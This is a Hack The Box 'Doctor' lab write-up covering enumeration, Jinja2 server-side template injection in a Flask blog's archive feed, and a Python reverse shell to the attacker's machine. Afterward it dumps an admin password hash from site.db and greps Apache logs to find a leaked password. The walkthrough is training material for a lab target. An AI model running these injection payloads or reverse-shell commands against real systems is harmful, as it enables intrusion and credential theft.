








# Hack the box - Doctor

IP: 10.10.10.209

## Enumeration

```
┌──(kali㉿kali)-[~/htb-doctor]
└─$ nmap -A  10.10.10.209
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-30 16:05 EST
Nmap scan report for 10.10.10.209
Host is up (0.041s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.90 seconds


```

## Check webs

http://10.10.10.209:80 info@doctors.htb mail -> doctors.htb to /etc/hosts

https://doctors.htb:8089 splunk 8.0.5


virtual server with doctors.htb
http://doctors.htb:80


we create an user...

post a message:


check source code:


we can observe the content posted in:
```
    <h1 class="mb-3">Posts by cdlsn (1)</h1>
    
        <article class="media content-section">
          
          <div class="media-body">
            <div class="article-metadata">
              <a class="mr-2" href="/user/cdlsn">cdlsn</a>
              <small class="text-muted">2021-01-01</small>
            </div>
            <h2><a class="article-title" href="/post/3">probando</a></h2>
            <p class="article-content">probando</p>
          </div>
        </article>
```
impossible to inject code

check /archive path:


it seems like we can perform some injection with <item><title> </title></item>
https://www.hackingarticles.in/comprehensive-guide-on-html-injection/ html injection no sense --> its an option interesting if we want to capture some user creds, etc
https://we45.com/blog/server-side-template-injection-a-crash-course/

jinja2 SSTI:



same as htb challenge "templated", steps:

{{ ''.__class__.__mro__[1].__subclasses__() }}

search popen

{{ ''.__class__.__mro__[1].__subclasses__()[400:450] }}

{{ ''.__class__.__mro__[1].__subclasses__()[407] }}

```

	<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>&lt;class &#39;subprocess.Popen&#39;&gt;</title></item>

			</channel>
			
```
{{ ''.__class__.__mro__[1].__subclasses__()[407].('ls',shell=True,stdout=-1).communicate() }}

it doesnt work with this method, maybe with request:
... &gt;, &lt;class &#39;urllib.request.Request&#39;&gt;, &lt;c ...

{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

its working

```
	<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
</title></item>

			</channel>
			
```
-----> python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.94\",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'

{{ request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.94\",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'').read() }}

go to: http://doctors.htb/archive to execute in server and open reverse shell

...

## Reverse shell stablished

```
┌──(kali㉿kali)-[~]
└─$ nc -l -p 1111                
/bin/sh: 0: can't access tty; job control turned off
$ ls
blog
blog.sh
linpeas.sh
nc
-o
pythonRev.py
SimpleHTTPServer.py

```

```
$ python3 -c "import pty; pty.spawn('/bin/sh')"
$ export TERM=xterm
$ whoami && id && pwd
whoami && id && pwd
web
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
/home/web
```
site.db?
```
$ pwd       
pwd
/home/web/blog/flaskblog
$ cat site.db
cat site.db
��u�MtablepostpostCREATE TABLE post (
        id INTEGER NOT NULL, 
        title VARCHAR(100) NOT NULL, 
        date_posted DATETIME NOT NULL, 
        content TEXT NOT NULL, 
        user_id INTEGER NOT NULL, 
        PRIMARY KEY (id), 
        FOREIGN KEY(user_id) REFERENCES user (id)
)�~�_tableuseruserCREATE TABLE user (
        id INTEGER NOT NULL, 
        username VARCHAR(20) NOT NULL, 
        email VARCHAR(120) NOT NULL, 
        image_file VARCHAR(20) NOT NULL, 
        password VARCHAR(60) NOT NULL, 
        PRIMARY KEY (id), 
        UNIQUE (username), 
        UNIQUE (email)
��;��wdac-#�adminadmin@doctor.htbdefault.gif$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
����#   TestUse
        admin
��DDDDDDD�+�lZ#?mtor.htbDoctor blog2020-09-18 20:48:37.55555A free blog to share medical knowledge. Be kind!    $ 

```
check python api / flask app:
```
$ pwd
pwd
/home/web/blog/flaskblog/users
$ cat routes.py
cat routes.py
from flask import render_template, url_for, flash, redirect, request, Blueprint
from flask_login import login_user, current_user, logout_user, login_required
from flaskblog import db, bcrypt
from flaskblog.models import User, Post
from flaskblog.users.forms import (RegistrationForm, LoginForm, UpdateAccountForm,
                                   RequestResetForm, ResetPasswordForm)
from flaskblog.users.utils import save_picture, send_reset_email

users = Blueprint('users', __name__)


@users.route("/register", methods=['GET', 'POST'])
def register():
    if current_user.is_authenticated:
        return redirect(url_for('main.home'))
    form = RegistrationForm()
    if form.validate_on_submit():
        hashed_password = bcrypt.generate_password_hash(form.password.data).decode('utf-8')
        user = User(username=form.username.data, email=form.email.data, password=hashed_password)
        db.session.add(user)
        db.session.commit()
        flash('Your account has been created, with a time limit of twenty minutes!', 'success')
        return redirect(url_for('users.login'))
    return render_template('register.html', title='Register', form=form)


@users.route("/login", methods=['GET', 'POST'])
def login():
    if current_user.is_authenticated:
        return redirect(url_for('main.home'))
    form = LoginForm()
    if form.validate_on_submit():
        user = User.query.filter_by(email=form.email.data).first()
        if user and bcrypt.check_password_hash(user.password, form.password.data):
            login_user(user, remember=form.remember.data)
            next_page = request.args.get('next')
            return redirect(next_page) if next_page else redirect(url_for('main.home'))
        else:
            flash('Nope, no such luck.', 'danger')
    return render_template('login.html', title='Login', form=form)


@users.route("/logout")
def logout():
    logout_user()
    return redirect(url_for('main.home'))


@users.route("/account", methods=['GET', 'POST'])
@login_required
def account():
    form = UpdateAccountForm()
    if form.validate_on_submit():
        if form.picture.data:
            picture_file = save_picture(form.picture.data)
            current_user.image_file = picture_file
        current_user.username = form.username.data
        current_user.email = form.email.data
        db.session.commit()
        flash('Your account has been updated!', 'success')
        return redirect(url_for('users.account'))
    elif request.method == 'GET':
        form.username.data = current_user.username
        form.email.data = current_user.email
    image_file = url_for('static', filename='profile_pics/' + current_user.image_file)
    return render_template('account.html', title='Account',
                           image_file=image_file, form=form)


@users.route("/user/<string:username>")
def user_posts(username):
    page = request.args.get('page', 1, type=int)
    user = User.query.filter_by(username=username).first_or_404()
    posts = Post.query.filter_by(author=user)\
        .order_by(Post.date_posted.desc())\
        .paginate(page=page, per_page=5)
    return render_template('user_posts.html', posts=posts, user=user)


@users.route("/reset_password", methods=['GET', 'POST'])
def reset_request():
    if current_user.is_authenticated:
        return redirect(url_for('main.home'))
    form = RequestResetForm()
    if form.validate_on_submit():
        user = User.query.filter_by(email=form.email.data).first()
        send_reset_email(user)
        flash('An email has been sent with instructions to reset your password.', 'info')
        return redirect(url_for('users.login'))
    return render_template('reset_request.html', title='Reset Password', form=form)


@users.route("/reset_password/<token>", methods=['GET', 'POST'])
def reset_token(token):
    if current_user.is_authenticated:
        return redirect(url_for('main.home'))
    user = User.verify_reset_token(token)
    if user is None:
        flash('That is an invalid or expired token', 'warning')
        return redirect(url_for('users.reset_request'))
    form = ResetPasswordForm()
    if form.validate_on_submit():
        hashed_password = bcrypt.generate_password_hash(form.password.data).decode('utf-8')
        user.password = hashed_password
        db.session.commit()
        flash('Your password has been updated! You are now able to log in', 'success')
        return redirect(url_for('users.login'))
    return render_template('reset_token.html', title='Reset Password', form=form)
```
this petitions must pass trough a proxy, the two last functions are reset_password, with nmap we got an apache server, lest review some logs


/var/logs?
```
$ ls -la
ls -la
total 10364
drwxrwxr-x  13 root              syslog             4096 Jan  2 00:00 .
drwxr-xr-x  16 root              root               4096 Jul 21 19:17 ..
-rw-r--r--   1 root              root                  0 Aug 18 12:19 alternatives.log
-rw-r--r--   1 root              root                475 Aug 13 09:16 alternatives.log.1
drwxr-x---   2 root              adm                4096 Jan  2 00:00 apache2
drwxr-xr-x   2 root              root               4096 Sep  7 12:13 apt
-rw-r-----   1 syslog            adm               25493 Jan  2 01:20 auth.log
-rw-r-----   1 syslog            adm               46059 Jan  1 21:09 auth.log.1
-rw-r-----   1 syslog            adm               28181 Sep 22 10:40 auth.log.2.gz
-rw-r-----   1 syslog            adm                9053 Sep 14 10:06 auth.log.3.gz
-rw-r-----   1 syslog            adm                9552 Sep  6 16:07 auth.log.4.gz
-rw-------   1 root              root                  0 Jan  1 21:09 boot.log
-rw-------   1 root              root              85330 Jan  1 21:09 boot.log.1
-rw-------   1 root              root              45265 Sep 28 12:12 boot.log.2
-rw-------   1 root              root              36817 Sep 23 10:46 boot.log.3
-rw-------   1 root              root              18812 Sep 22 10:40 boot.log.4
-rw-------   1 root              root               9301 Sep 18 00:00 boot.log.5
-rw-------   1 root              root               9170 Sep 17 00:00 boot.log.6
-rw-------   1 root              root               8755 Sep 16 00:00 boot.log.7
-rw-rw----   1 root              utmp               6144 Jan  2 01:16 btmp
-rw-rw----   1 root              utmp               9984 Sep 28 13:48 btmp.1
drwxr-xr-x   2 root              root               4096 Jan  2 00:00 cups
drwxr-xr-x   2 root              root               4096 Apr  8  2020 dist-upgrade
-rw-r--r--   1 root              adm              120926 Jan  1 21:09 dmesg
-rw-r--r--   1 root              adm              121019 Sep 28 15:00 dmesg.0
-rw-r--r--   1 root              adm               22590 Sep 28 13:47 dmesg.1.gz
-rw-r--r--   1 root              adm               22487 Sep 28 13:41 dmesg.2.gz
-rw-r--r--   1 root              adm               22846 Sep 28 13:38 dmesg.3.gz
-rw-r--r--   1 root              adm               22855 Sep 28 13:22 dmesg.4.gz
-rw-r--r--   1 root              root                  0 Sep  7 12:13 dpkg.log
-rw-r--r--   1 root              root               2730 Sep  6 17:56 dpkg.log.1
-rw-r--r--   1 root              root               5795 Aug 13 09:16 dpkg.log.2.gz
-rw-r--r--   1 root              root              10973 Jul 20 22:31 fontconfig.log
-rw-r--r--   1 root              root               1163 Aug 13 09:04 gpu-manager.log
drwxr-xr-x   3 root              root               4096 Apr 23  2020 hp
drwxrwxr-x   2 root              root               4096 Jul 26 19:45 installer
drwxr-sr-x+  3 root              systemd-journal    4096 Jul 20 22:23 journal
-rw-r-----   1 syslog            adm               53774 Jan  2 01:19 kern.log
-rw-r-----   1 syslog            adm             2694314 Jan  1 21:09 kern.log.1
-rw-r-----   1 syslog            adm             2810498 Sep 22 10:40 kern.log.2.gz
-rw-r-----   1 syslog            adm              246256 Sep 14 10:06 kern.log.3.gz
-rw-r-----   1 syslog            adm               66578 Sep  6 16:07 kern.log.4.gz
-rw-rw-r--   1 root              utmp             293168 Sep 28 15:02 lastlog
drwxr-xr-x   2 root              root               4096 Sep  5  2019 openvpn
drwx------   2 root              root               4096 Apr 23  2020 private
drwx------   2 speech-dispatcher root               4096 Jan 19  2020 speech-dispatcher
-rw-r-----   1 syslog            adm               24775 Jan  2 01:20 syslog
-rw-r-----   1 syslog            adm               86897 Jan  2 00:00 syslog.1
-rw-r-----   1 syslog            adm              298016 Jan  1 21:09 syslog.2.gz
-rw-r-----   1 syslog            adm              163488 Sep 28 12:12 syslog.3.gz
-rw-r-----   1 syslog            adm              132237 Sep 23 10:46 syslog.4.gz
-rw-r-----   1 syslog            adm             2747664 Sep 22 10:40 syslog.5.gz
-rw-r-----   1 syslog            adm                8547 Sep 19 00:00 syslog.6.gz
-rw-r-----   1 syslog            adm               40610 Sep 18 00:00 syslog.7.gz
-rw-r-----   1 syslog            adm               52729 Jan  2 01:19 ufw.log
-rw-r-----   1 syslog            adm               11055 Jan  1 21:09 ufw.log.1
-rw-r-----   1 syslog            adm                1479 Sep 22 10:40 ufw.log.2.gz
-rw-r-----   1 syslog            adm                1043 Sep 14 10:06 ufw.log.3.gz
drwxr-x---   2 root              adm                4096 Jan  1 21:09 unattended-upgrades
-rw-------   1 root              root                709 Sep 28 15:07 vmware-network.1.log
-rw-------   1 root              root                689 Sep 28 14:59 vmware-network.2.log
-rw-------   1 root              root                689 Sep 28 12:12 vmware-network.3.log
-rw-------   1 root              root                709 Sep 23 15:42 vmware-network.4.log
-rw-------   1 root              root                689 Sep 23 10:46 vmware-network.5.log
-rw-------   1 root              root                709 Sep 22 13:03 vmware-network.6.log
-rw-------   1 root              root                689 Sep 22 12:17 vmware-network.7.log
-rw-------   1 root              root                709 Sep 22 12:12 vmware-network.8.log
-rw-------   1 root              root                689 Sep 22 10:40 vmware-network.9.log
-rw-------   1 root              root                681 Jan  1 21:09 vmware-network.log
-rw-------   1 root              root               2520 Sep 28 15:07 vmware-vmsvc-root.1.log
-rw-------   1 root              root               1372 Sep 28 13:47 vmware-vmsvc-root.2.log
-rw-------   1 root              root               2077 Sep 28 13:47 vmware-vmsvc-root.3.log
-rw-------   1 root              root               5017 Jan  1 21:10 vmware-vmsvc-root.log
-rw-------   1 root              root               8700 Jan  1 21:09 vmware-vmtoolsd-root.log
-rw-rw-r--   1 root              utmp             122112 Jan  1 21:09 wtmp
-rw-r--r--   1 root              root              22947 Sep  6 17:09 Xorg.0.log
-rw-r--r--   1 root              root              22947 Sep  6 17:09 Xorg.0.log.old
``` 

```
$ pwd
pwd
/var/log/apache2
$ grep -nrw "reset_password"
grep -nrw "reset_password"
backup:74:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
error.log.1:2366:[Fri Jan 01 22:49:02.884298 2021] [php7:error] [pid 3269] [client 10.10.14.86:35430] script '/var/www/html/reset_password.php' not found or unable to stat
access.log.1:1648280:10.10.14.73 - - [01/Jan/2021:21:44:09 +0100] "HEAD /reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1656343:10.10.14.73 - - [01/Jan/2021:21:44:13 +0100] "HEAD /reset_password.html HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1657653:10.10.14.73 - - [01/Jan/2021:21:44:14 +0100] "HEAD /images/reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1660801:10.10.14.73 - - [01/Jan/2021:21:44:15 +0100] "HEAD /js/reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1672045:10.10.14.73 - - [01/Jan/2021:21:44:20 +0100] "HEAD /css/reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
access.log.1:1677349:10.10.14.73 - - [01/Jan/2021:21:44:23 +0100] "HEAD /icons/reset_password/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
